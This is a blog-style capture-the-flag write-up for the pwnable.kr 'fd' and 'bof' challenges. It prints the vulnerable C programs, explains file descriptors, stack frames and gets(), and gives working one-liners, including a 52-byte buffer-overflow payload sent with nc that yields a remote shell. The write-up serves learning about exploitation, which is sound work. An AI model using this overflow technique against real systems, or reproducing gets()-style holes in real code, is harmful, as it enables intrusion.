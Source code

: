 +++
title = "pwnable.kr - Toddler's Bottle"
date = 2020-04-27T12:59:37.396Z
updated = 2020-04-27T13:02:48.347Z
aliases = ["/posts/5ea6d739cea15a083827d57f-pwnablekr-toddlers-bottle"]
[taxonomies]
tags = ['pwnable.kr', 'binary-exploitation', 'buffer-overflow', 'pwntools']
categories = ["ctf-writeups"]
+++

# fd - 1pt
## Challenge
> Mommy! what is a file descriptor in Linux?
> 
> ssh fd@pwnable.kr -p2222 (pw:guest)

## Source Code

After ssh-ing into the server with the given details, we can view the source code of the challenge by running `cat fd.c`:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;
}
```

<!-- more -->

## File Descriptors

On POSIX systems, there are three standard file descriptors:

* Standard Input (stdin) which has a fd of `0`
* Standard Output (stdout) which has a fd of `1`
* Standard Error (stderr) which has a fd of `2`

## Solution

The program subtracts 0x1234 from a file descriptor we provide and then reads from it. If the read string is `LETMEWIN\n`, it gives us the flag. If we get the program to read from `stdin`, we can just type `LETMEWIN` into the terminal, and we will get the flag:

```bash
echo LETMEWIN | ./fd $(python -c "print 0x1234 + 0")
```

# bof - 5pt
## Challenge

> Nana told me that buffer overflow is one of the most common software vulnerability. Is that true?
> 
> Download : http://pwnable.kr/bin/bof
> 
> Download : http://pwnable.kr/bin/bof.c
> 
> Running at : nc pwnable.kr 9000

## Source Code

```cpp
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

## Background


### Stack Frames
The stack stores local variables and function parameters and is used to pass parameters with certain calling conventions. This diagram (taken from [Wikipedia](https://en.wikipedia.org/wiki/Call_stack)) shows an example stack layout:

svg(path="5ea6d67bcea15a083827d578.svg")


### gets

The function `gets` is insecure and allows for buffer overflows when used because it only stops at new lines or EOF. The manpage for gets (`man gets`) says this:

> Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the  end  of the buffer, it is extremely dangerous to use.  It has been used to break computer security.  Use fgets() instead.

## Solution

We need to overwrite the `key` parameter passed to `func`. To get there we will need to overwrite 36 bytes (`char overflowme[32]`, and the return address (4 bytes in 32-bit programs)). However, additional values are pushed onto the stack to save the previous location of the stack. Therefore, we have to place `0xcafebabe` at 52 bytes into the stack:

```bash
(python -c "print('A'*52 + '\xbe\xba\xfe\xca')" && cat - ) | nc pwnable.kr 9000
```

Note that `0xcafebabe` is encoded into a little-endian format, and `cat -` is used to allow us to communicate with the opened shell.
